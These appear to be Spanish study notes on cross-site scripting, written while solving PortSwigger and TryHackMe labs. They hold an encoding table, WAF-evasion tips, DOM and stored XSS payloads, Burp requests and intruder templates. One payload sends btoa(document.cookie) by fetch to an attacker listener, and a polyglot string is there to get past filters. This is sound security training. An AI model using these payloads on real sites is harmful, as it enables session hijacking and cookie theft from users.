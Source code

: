 # XSS

Esta hoja de trucos de secuencias de comandos entre sitios (XSS) contiene muchos vectores que pueden ayudarle a evitar WAF y filtros. Puede seleccionar vectores por evento, etiqueta o navegador y se incluye una prueba de concepto para cada vector.

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet





https://github.com/s0md3v/AwesomeXSS




https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


### Awesome Encoding

|HTML|Char|Numeric|Description|Hex|CSS (ISO)|JS (Octal)|URL|
|----|----|-------|-----------|----|--------|----------|---|
|`&quot;`|"|`&#34;`|quotation mark|u+0022|\0022|\42|%22|
|`&num;`|#|`&#35;`|number sign|u+0023|\0023|\43|%23|
|`&dollar;`|$|`&#36;`|dollar sign|u+0024|\0024|\44|%24|
|`&percnt;`|%|`&#37;`|percent sign|u+0025|\0025|\45|%25|
|`&amp;`|&|`&#38;`|ampersand|u+0026|\0026|\46|%26|
|`&apos;`|'|`&#39;`|apostrophe|u+0027|\0027|\47|%27|
|`&lpar;`|(|`&#40;`|left parenthesis|u+0028|\0028|\50|%28|
|`&rpar;`|)|`&#41;`|right parenthesis|u+0029|\0029|\51|%29|
|`&ast;`|*|`&#42;`|asterisk|u+002A|\002a|\52|%2A|
|`&plus;`|+|`&#43;`|plus sign|u+002B|\002b|\53|%2B|
|`&comma;`|,|`&#44;`|comma|u+002C|\002c|\54|%2C|
|`&minus;`|-|`&#45;`|hyphen-minus|u+002D|\002d|\55|%2D|
|`&period;`|.|`&#46;`|full stop; period|u+002E|\002e|\56|%2E|
|`&sol;`|/|`&#47;`|solidus; slash|u+002F|\002f|\57|%2F|
|`&colon;`|:|`&#58;`|colon|u+003A|\003a|\72|%3A|
|`&semi;`|;|`&#59;`|semicolon|u+003B|\003b|\73|%3B|
|`&lt;`|<|`&#60;`|less-than|u+003C|\003c|\74|%3C|
|`&equals;`|=|`&#61;`|equals|u+003D|\003d|\75|%3D|
|`&gt;`|>|`&#62;`|greater-than sign|u+003E|\003e|\76|%3E|
|`&quest;`|?|`&#63;`|question mark|u+003F|\003f|\77|%3F|
|`&commat;`|@|`&#64;`|at sign; commercial at|u+0040|\0040|\100|%40|
|`&lsqb;`|\[|`&#91;`|left square bracket|u+005B|\005b|\133|%5B|
|`&bsol;`|&bsol;|`&#92;`|backslash|u+005C|\005c|\134|%5C|
|`&rsqb;`|]|`&#93;`|right square bracket|u+005D|\005d|\135|%5D|
|`&Hat;`|^|`&#94;`|circumflex accent|u+005E|\005e|\136|%5E|
|`&lowbar;`|_|`&#95;`|low line|u+005F|\005f|\137|%5F|
|`&grave;`|\`|`&#96;`|grave accent|u+0060|\0060|\u0060|%60|
|`&lcub;`|{|`&#123;`|left curly bracket|u+007b|\007b|\173|%7b|
|`&verbar;`|\||`&#124;`|vertical bar|u+007c|\007c|\174|%7c|
|`&rcub;`|}|`&#125;`|right curly bracket|u+007d|\007d|\175|%7d|



### Awesome Tips & Tricks
- `http(s)://` can be shortened to `//` or `/\\` or `\\`.
- `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
- alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
- You can use `//` to close a tag instead of `>`.
- I have found that `confirm` is the least detected pop-up function so stop using `alert`.
- Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
- The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)




</br>


# XSS reflejado en HTML sin codificación

## Laboratorio: XSS reflejado en contexto HTML sin nada codificado

Este laboratorio contiene una vulnerabilidad simple reflejada de secuencias de comandos entre sitios en la funcionalidad de búsqueda.

To solve the lab, perform a cross-site scripting attack that calls the alert functio


En esta clase damos los primeros pasos en el mundo del Cross-Site Scripting (XSS), concretamente en su variante reflejada. Analizamos una funcionalidad de búsqueda donde el valor introducido por el usuario se refleja directamente en la respuesta HTML de la página, sin ningún tipo de codificación o validación.

Aprovechamos esta falta de protección para inyectar código que se ejecuta en el navegador de la víctima al interactuar con la funcionalidad vulnerable. En este caso, demostramos la ejecución de un fragmento de código que invoca una alerta en pantalla, lo cual confirma que la inyección es posible y activa.

Esta lección marca el inicio de una nueva sección dedicada a la explotación de XSS, explorando cómo los datos del usuario, si no son tratados correctamente, pueden convertirse en vectores de ataque dentro del navegador.


Laboratorio: XSS reflejado en contexto HTML sin nada codificado

Este laboratorio contiene una vulnerabilidad simple reflejada de secuencias de comandos entre sitios en la funcionalidad de búsqueda.



<script>onerror=alert;throw 1</script>

<script>{onerror=alert}throw 1</script>











# XSS almacenado en HTML sin codificación

En esta clase abordamos un XSS almacenado, una variante más peligrosa que el reflejado, ya que el código malicioso no se ejecuta solo al enviar una petición directa, sino que queda guardado en el sistema y se activa cada vez que otro usuario accede al contenido afectado.

La vulnerabilidad se encuentra en la funcionalidad de comentarios de una entrada de blog. El sistema acepta entradas de texto —como nombre, email, sitio web y comentario— sin realizar ninguna codificación, validación o filtrado. Esto permite inyectar código que se guarda en el servidor y se ejecuta automáticamente cuando la página del blog vuelve a ser cargada por cualquier visitante.

En esta clase demostramos cómo insertar un fragmento de código que, al visualizarse en el blog, desencadena una acción en el navegador como mostrar una alerta, confirmando que el entorno es vulnerable.

Este laboratorio sienta las bases para comprender cómo el XSS almacenado puede ser utilizado para comprometer a múltiples usuarios, incluso sin interacción directa entre atacante y víctima.

## Laboratorio: XSS almacenado en contexto HTML sin nada codificado

Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios almacenada en la funcionalidad de comentarios.

Para resolver este laboratorio, envíe un comentario que llame al alert función cuando se visualiza la publicación del blog.


<script>onerror=alert;throw 1</script>









# XSS DOM con ‘document.write’ y ‘location.search’

En esta lección nos adentramos en el XSS basado en DOM, donde la vulnerabilidad no reside en el servidor, sino en cómo el código JavaScript del navegador procesa los datos de la URL.

El laboratorio utiliza una función que escribe directamente en la página el valor obtenido desde la parte de búsqueda de la URL (lo que va después del símbolo de interrogación). Este dato no es validado ni codificado, y se inserta dinámicamente mediante una función que genera HTML de forma directa.

Inicialmente observamos que al hacer una búsqueda cualquiera, el valor se refleja dentro de un atributo de imagen. A partir de ahí, construimos un vector de ataque que rompe el atributo e introduce código que se ejecuta en el navegador de la víctima.

Este tipo de XSS es especialmente común en aplicaciones ricas en JavaScript y demuestra cómo la lógica del lado cliente puede ser tan peligrosa como una mala validación en el backend.

## Laboratorio: DOM XSS en document.write hundir usando la fuente location.search

Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en la funcionalidad de seguimiento de consultas de búsqueda. Utiliza JavaScript document.write función que escribe datos en la página. El document.write La función se llama con datos de location.search, que puedes controlar utilizando la URL del sitio web.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert función.



<script> document.write(sanitizeHtml('<iframe onload=alert(1)>'))</script>


"><script>alert('THM')</script>

<script>alert('THM');</script>
</textarea><script>alert('THM');</script>


';alert('THM');//


Original Payload:
<sscriptcript>alert('THM');</sscriptcript>

Text to be removed (by the filter):
<sscriptcript>alert('THM');</sscriptcript>

Final Payload (after passing the filter):
<script>alert('THM');</script>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e


</textarea><script>fetch('http://10.10.17.68:9001?cookie=' + btoa(document.cookie) );</script>






# XSS DOM con ‘innerHTML’ y ‘location.search’
En esta clase seguimos trabajando con XSS basado en DOM, esta vez enfocado en el uso inseguro de la propiedad que modifica directamente el contenido HTML de un elemento del DOM.

La aplicación vulnerable toma el valor introducido en la búsqueda (extraído directamente desde la URL) y lo inserta dentro del contenido de una etiqueta mediante una asignación directa sin aplicar ninguna medida de sanitización. Esto permite introducir fragmentos de código que se interpretan como HTML y que pueden incluir eventos maliciosos.

En este caso, se utiliza una imagen con una ruta inválida que provoca un error al cargar. Ese error activa un manejador de eventos que ejecuta el código malicioso, confirmando que la vulnerabilidad es explotable.

Esta lección refuerza el concepto de que, incluso sin interacción con el servidor, es posible comprometer a los usuarios si se procesan datos no confiables del lado cliente.

## Laboratorio: DOM XSS en innerHTML hundir usando la fuente location.search
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en la funcionalidad del blog de búsqueda. Utiliza un innerHTML asignación, que cambia el contenido HTML de un div elemento, utilizando datos de location.search.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert función.


<script>
function doSearchQuery(query) {
document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
doSearchQuery(query);
}
</script>

**Respuesta**

<img src=x onerror=alert('XSS')>






# XSS DOM en ‘href’ con jQuery y ‘location.search’
En esta lección continuamos explorando vulnerabilidades de XSS basado en DOM, centrando la atención en el uso de bibliotecas como jQuery y cómo pueden convertirse en vectores de ataque si se manipulan de forma insegura.

La aplicación vulnera al utilizar jQuery para localizar un enlace de navegación y modificar su destino utilizando directamente el valor de un parámetro en la URL. Al no realizarse ningún tipo de validación ni restricción sobre ese valor, es posible reemplazar el destino original con un esquema especial que ejecute código malicioso.

En este caso, sustituimos el valor del parámetro con una instrucción que, al hacer clic en el enlace, ejecuta una función para mostrar las cookies del navegador, demostrando así la explotación exitosa de la vulnerabilidad.

Este ejemplo evidencia cómo incluso operaciones aparentemente inofensivas, como cambiar el destino de un enlace, pueden volverse peligrosas si se basan en datos controlables por el usuario y se usan sin filtros adecuados.

 
 ## Laboratorio: DOM XSS en el ancla jQuery href sumidero de atributos usando location.search fuente
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en la página de envío de comentarios. Utiliza la biblioteca jQuery $ función selectora para encontrar un elemento de anclaje y cambia su href atributo que utiliza datos de location.search.

Para resolver este laboratorio, realice la alerta de enlace "atrás" document.cookie.


web-security-academy.net/feedback?returnPath=/test


javascript:alert(document.cookie)



web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)





# XSS DOM con jQuery y evento ‘hashchange’
En esta clase trabajamos con una vulnerabilidad de XSS basado en DOM que se dispara cuando el navegador detecta un cambio en la parte del hash de la URL —es decir, todo lo que viene después del símbolo de almohadilla.

La aplicación utiliza jQuery para seleccionar elementos basándose en ese valor y realizar acciones como hacer scroll automático a un post específico. El problema es que se emplea directamente como selector, sin validación alguna, permitiendo al atacante manipularlo para inyectar y ejecutar código en el navegador de la víctima.

Montamos un ataque usando un servidor de explotación que carga la página vulnerable dentro de un contenedor invisible. Al modificarse dinámicamente la URL interna, se inyecta una instrucción que se ejecuta automáticamente mediante un evento de error, invocando una función del navegador como demostración.

Esta clase muestra cómo incluso fragmentos aparentemente inofensivos de la URL, como el hash, pueden ser vectores de ataque si no se gestionan correctamente en el lado cliente.



## Laboratorio: DOM XSS en el receptor del selector jQuery mediante un evento hashchange
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en la página de inicio. Utiliza jQuery $() función selectora para desplazarse automáticamente a una publicación determinada, cuyo título se pasa a través de location.hash propiedad.

Para resolver el laboratorio, entregue un exploit a la víctima que llame al print() función en su navegador.

<script>
$(window).on('hashchange', function(){
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
if (post) post.get(0).scrollIntoView();
});
</script>




#I'm%20A%20Photoshopped%20Girl%20Living%20In%20A%20Photoshopped%20World


<img src=x onerror=alert('XSS')>


<iframe src="https://0ac500f1047104e981fe033d006d00a5.web-security-academy.net/#" onload="this.src +='<img src=0 onerror=alert(0)>' "></iframe>

<iframe src="https://0ac500f1047104e981fe033d006d00a5.web-security-academy.net/#" onload="this.src +='<img src=0 onerror=print()>' "></iframe>








# XSS reflejado en atributo con corchetes codificados
En esta clase trabajamos con un XSS reflejado que no ocurre dentro del cuerpo de una etiqueta HTML, sino dentro de un atributo. La aplicación codifica los signos angulares para evitar que se abran etiquetas directamente, pero permite inyectar contenido dentro de valores entre comillas.

La funcionalidad vulnerable es el buscador del blog. Al introducir un valor en el cuadro de búsqueda, este se refleja dentro de un atributo HTML en la respuesta. Usando herramientas como Burp Suite, interceptamos la petición y comprobamos que nuestro valor aparece entre comillas dentro de ese atributo.

La estrategia consiste en cerrar el valor actual del atributo e introducir uno nuevo que contenga un manejador de eventos (por ejemplo, uno que se active al pasar el ratón). Al acceder a la URL modificada y mover el cursor sobre el área afectada, se ejecuta el código inyectado, demostrando que la inyección fue exitosa.

Este laboratorio destaca la importancia de validar correctamente no solo el contenido de las etiquetas, sino también lo que va dentro de atributos, donde también es posible ejecutar código si no se sanitiza correctamente.


## Laboratorio: XSS reflejado en un atributo con corchetes angulares codificados en HTML
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad del blog de búsqueda donde los corchetes angulares están codificados en HTML. Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que inyecte un atributo y llame al alert función.


" onmouseover="alert(0)

0 search results for '" onmouseover="alert(0)'







# XSS almacenado en ‘href’ con comillas codificadas
En esta clase exploramos un XSS almacenado que se produce dentro de un atributo de tipo enlace. La funcionalidad vulnerable es el sistema de comentarios del blog, que permite introducir un nombre, correo y un sitio web. El valor del sitio web se utiliza como destino en un enlace generado automáticamente alrededor del nombre del autor del comentario.

El sistema codifica las comillas dobles, pero no valida ni restringe el contenido del enlace. Esto permite introducir un esquema especial como dirección, el cual no apunta a una página web sino que ejecuta directamente código cuando el usuario hace clic.

Aprovechamos este comportamiento para insertar un valor que desencadena una acción maliciosa cuando alguien interactúa con el nombre del autor. Al tratarse de un XSS almacenado, el código queda persistente en la aplicación y se ejecutará para cualquier visitante que visualice ese comentario.

Este laboratorio muestra cómo vectores aparentemente inofensivos, como un campo de URL opcional, pueden utilizarse para comprometer la seguridad de otros usuarios si no se implementan controles adecuados.

## Laboratorio: XSS almacenado en el ancla href atributo con comillas dobles codificado en HTML
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios almacenada en la funcionalidad de comentarios. Para resolver este laboratorio, envíe un comentario que llame al alert función cuando se hace clic en el nombre del autor del comentario.



Name:    test
Email:   test@tes.com
Website: javascript:alert(document.cookie)

Website: javascript:alert(0)






# XSS reflejado en string JS con corchetes codificados
En esta clase trabajamos con un XSS reflejado que ocurre dentro de una cadena de texto en un fragmento de código JavaScript. Aunque los signos de apertura y cierre de etiquetas están codificados, el contexto vulnerable no está en HTML, sino en el propio lenguaje JavaScript.

La funcionalidad afectada es el sistema de seguimiento de búsquedas. Al introducir una consulta, el valor se refleja en una variable JavaScript como parte de una cadena. Esto permite al atacante cerrar esa cadena con comillas o caracteres especiales, insertar código adicional, y continuar la ejecución sin generar errores de sintaxis.

Utilizamos este enfoque para romper la cadena original y ejecutar una función maliciosa, demostrando así que la inyección es posible a pesar del filtrado parcial.

Este laboratorio introduce uno de los contextos más comunes y peligrosos en los que puede explotarse XSS: dentro del propio código del cliente, donde las medidas tradicionales de filtrado HTML no son suficientes para evitar el ataque.

 ## Laboratorio: XSS reflejado en una cadena JavaScript con corchetes angulares codificados en HTML
APRENDIZ

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad de seguimiento de consultas de búsqueda donde se codifican corchetes angulares. La reflexión se produce dentro de una cadena de JavaScript. Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que se salga de la cadena JavaScript y llame al alert función.


testing'; alert(0); var pp='probando


<script>
var searchTerms = 'testing'; alert(0); var pp='probando';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>








# XSS DOM con ‘document.write’ dentro de ‘select’
En esta clase abordamos un XSS basado en DOM donde el código vulnerable utiliza una función que genera contenido HTML directamente en la página, tomando los datos desde la parte de búsqueda de la URL, específicamente desde el parámetro que indica el identificador de una tienda.

El fragmento dinámico se inserta dentro de una lista desplegable, por lo que cualquier valor enviado mediante ese parámetro se convierte en una nueva opción dentro del menú. Este comportamiento no incluye ninguna validación o codificación, lo que nos permite modificar la estructura del HTML de forma intencionada.

Para explotar la vulnerabilidad, rompemos la estructura del menú y añadimos un elemento adicional con un comportamiento malicioso, que se ejecuta automáticamente cuando el navegador intenta procesarlo.

Este laboratorio refuerza el concepto de que, cuando se generan elementos HTML a partir de datos controlables por el usuario, incluso dentro de componentes comunes como listas desplegables, puede abrirse una puerta directa a la ejecución de código si no se filtran correctamente las entradas

## Laboratorio: DOM XSS en document.write hundir usando la fuente location.search dentro de un elemento seleccionado
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en la funcionalidad del verificador de stock. Utiliza JavaScript document.write función que escribe datos en la página. El document.write La función se llama con datos de location.search que puedes controlar mediante la URL del sitio web. Los datos están encerrados dentro de un elemento seleccionado.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que salga del elemento seleccionado y llame al alert función.


storeId=London<script>alert('Hacked')</script>


<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
if(stores[i] === store) {
continue;
}
document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>



/product?productId=1&&storeId=Lond


### BURPSUITE   REPITER


GET /product?productId=1&&storeId=Lond<script>alert('Hacked')</script><select+name%3d"storeId"><option+selected></option> HTTP/2
Host: 0a6c0000048a47bae2081efb002e00e0.web-security-academy.net
Cookie: session=Qff7jx9ptBhGhm91NrL6626CmnbWyLuV
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i










# XSS DOM en AngularJS con comillas codificadas
En esta clase nos adentramos en un XSS basado en DOM que aprovecha una característica específica de AngularJS, un popular framework de JavaScript. La vulnerabilidad reside en cómo el sistema procesa expresiones dentro de directivas marcadas con un atributo especial en el HTML.

La funcionalidad afectada es un buscador, cuyo valor introducido se refleja dentro de un nodo HTML que está bajo el control de AngularJS. A pesar de que los signos angulares y las comillas están codificados, Angular permite la ejecución de expresiones mediante doble llave, lo que nos abre una vía alternativa para ejecutar código.

Utilizamos una expresión construida con métodos internos del framework para forzar la ejecución de una función maliciosa, demostrando que la entrada del usuario se evalúa directamente dentro del motor de plantillas.

Este laboratorio destaca cómo los entornos con frameworks modernos pueden presentar vectores de ataque muy diferentes a los clásicos, y cómo conocer las particularidades de cada tecnología es clave para su explotación y protección.



## Laboratorio: DOM XSS en expresión AngularJS con corchetes angulares y comillas dobles codificadas en HTML
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios basada en DOM en una expresión AngularJS dentro de la funcionalidad de búsqueda.

AngularJS es una biblioteca JavaScript popular, que escanea el contenido de los nodos HTML que contienen ng-app atributo (también conocido como directiva AngularJS). Cuando se agrega una directiva al código HTML, puede ejecutar expresiones de JavaScript entre llaves dobles. Esta técnica es útil cuando se codifican corchetes angulares.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que ejecute una expresión AngularJS y llame al alert función.



https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/5%20-%20XSS%20in%20Angular.md



{{constructor.constructor('alert(1)')()}}



{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}




# XSS DOM reflejado
En esta clase abordamos un XSS reflejado basado en DOM, donde el servidor refleja datos en una respuesta JSON, y luego una función en el navegador —específicamente una llamada peligrosa— evalúa ese contenido sin validación adecuada.

La funcionalidad vulnerable está en el buscador del sitio. Al realizar una búsqueda, el término ingresado se refleja en un archivo JSON de resultados. Este contenido es posteriormente procesado por un script que usa una función que interpreta dinámicamente texto como si fuera código, abriendo la puerta a una inyección si no se escapan correctamente ciertos caracteres.

Aunque el sistema escapa comillas, no hace lo mismo con otros símbolos clave, como la barra invertida. Esto nos permite construir un valor malicioso que rompe la estructura del objeto y añade una instrucción personalizada, haciendo que se ejecute directamente en el navegador.

Este laboratorio muestra cómo una cadena aparentemente segura puede convertirse en un vector de ejecución de código si se mezcla con funciones peligrosas como la evaluación directa de datos, reforzando la importancia de evitar el uso de estas prácticas en el desarrollo web moderno.


## Laboratorio: DOM XSS reflejado
PRACTICANTE

LAB
No resuelto
Este laboratorio demuestra una vulnerabilidad DOM reflejada. Las vulnerabilidades DOM reflejadas ocurren cuando la aplicación del lado del servidor procesa datos de una solicitud y hace eco de los datos en la respuesta. Luego, un script en la página procesa los datos reflejados de manera insegura y, en última instancia, los escribe en un fregadero peligroso.

Para resolver este laboratorio, cree una inyección que llame al alert() función.

 <script>search('search-results')</script>

/search-results?search=New+Year



"'"; alert(0);  var searchResul=


eval('var searchResultsObj = ' + this.responseText);
displaySearchResults(searchResultsObj);

{"results":[],"searchTerm":"Friend\\"alert(0)}//"}




Friend\"*alert(0)}//






GET /search-results?search=Friend\"*alert(0)}// HTTP/2
Host: 0a36003b048bea02814ce326005c000a.web-security-academy.net
Cookie: session=6re096bbWInEuezW7QZJtCX1zimBwavA
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a36003b048bea02814ce326005c000a.web-security-academy.net/?search=Friends
Accept-Encoding: gzip, deflate, br
Priority: u=1, i





HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 50

{"results":[],"searchTerm":"Friend\\"alert(0)}//"}








# XSS DOM almacenado
En esta clase trabajamos con un XSS almacenado basado en DOM, donde el comentario malicioso se guarda en el servidor, pero es procesado y convertido en código ejecutable directamente en el navegador de quien lo visualiza.

La funcionalidad vulnerable se encuentra en el sistema de comentarios del blog. Para prevenir ataques, el sitio aplica una función de reemplazo que intenta codificar los signos angulares, pero lo hace incorrectamente: solo reemplaza la primera aparición en lugar de todas.

Aprovechamos este fallo insertando un par adicional de signos al principio del comentario. Estos primeros caracteres serán codificados y neutralizados, pero los siguientes no serán tocados, permitiendo que el navegador interprete y ejecute el contenido malicioso cuando se carga la página.

Este laboratorio demuestra cómo una protección mal implementada puede dar una falsa sensación de seguridad, y cómo es posible evadirla con simples técnicas de desbordamiento o saturación de filtros.

## Lab: Stored DOM XSS
PRACTITIONER

LAB
Not solved
Este laboratorio demuestra una vulnerabilidad DOM almacenada en la funcionalidad de comentarios del blog. Para resolver este laboratorio, explote esta vulnerabilidad para llamar al alert() función.





displayComments(comments)

<script>loadComments('/post/comment')</script>


https://0a9200bd0383ec95821011c8002500d3.web-security-academy.net/resources/js/loadCommentsWithVulnerableEscapeHtml.js


curl -X GET "https://0a9200bd0383ec95821011c8002500d3.web-security-academy.net/post/comment"



<><img src=x onerror=alert('XSS')>




{"avatar":"","website":"https://test1.com","date":"2025-08-07T19:42:30.706417061Z","body":"<><img src=x onerror=alert('XSS')>\r\n\r\n","author":"test1"}






# XSS reflejado en HTML con etiquetas bloqueadas
En esta clase nos enfrentamos a un entorno con XSS reflejado protegido por un firewall que bloquea la mayoría de etiquetas HTML y atributos comunes. El objetivo es encontrar una combinación que permita ejecutar código sin intervención del usuario, pese a las restricciones impuestas.

La funcionalidad vulnerable es un buscador, donde el valor introducido se refleja directamente en el contenido HTML. Intentos clásicos de inyección son rechazados, por lo que utilizamos una estrategia sistemática con ayuda de Burp Suite.

Con Burp Intruder, realizamos una prueba automatizada enviando distintas etiquetas HTML y atributos, observando cuáles generan respuestas válidas. Detectamos que la etiqueta body y el atributo onresize no son filtrados. A partir de ahí, construimos un vector usando un contenedor invisible que al cargarse activa un evento de cambio de tamaño, el cual ejecuta directamente una función del navegador.

La prueba se completa al entregar el vector a una víctima a través de un servidor de explotación, validando así que la ejecución ocurre sin necesidad de clics o interacción adicional.

Este laboratorio muestra cómo es posible evadir sistemas de defensa si se analizan sus patrones de filtrado y se utilizan vectores alternativos cuidadosamente seleccionados.


## Laboratorio: XSS reflejado en contexto HTML con la mayoría de etiquetas y atributos bloqueados
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad XSS reflejada en la funcionalidad de búsqueda, pero utiliza un firewall de aplicaciones web (WAF) para protegerse contra vectores XSS comunes.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que evite el WAF y llame al print() función.

Nota
Su solución no debe requerir ninguna interacción del usuario. Causando manualmente print() Ser llamado en tu propio navegador no resolverá el problema del laboratorio.


21	body	200	194	false	false	3480	
33	custom tags	200	194	false	false	3487	



### PRIMERO validamos que etiqueta html pasa por el WAF lo hacemos con el intruder

Event handlers TAGS HTML

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


### INTRUDER

GET /?search=<$etiqueta$> HTTP/2
Host: 0af6000f0311801bbab39df200230060.web-security-academy.net
Cookie: session=WTW35qTptJVnVBfsIPt3QwxVnnR7LYa6
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af6000f0311801bbab39df200230060.web-security-academy.net/?search=%3Ci
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


### NOS DEVUELVE LA etiqueta body 



### Segundo validamos ahora el metodo que permite lo hacemos con el intruder

Event handlers TAGS HTML

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet




GET /?search=<body $evento$=print()> HTTP/2
Host: 0af6000f0311801bbab39df200230060.web-security-academy.net
Cookie: session=WTW35qTptJVnVBfsIPt3QwxVnnR7LYa6
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
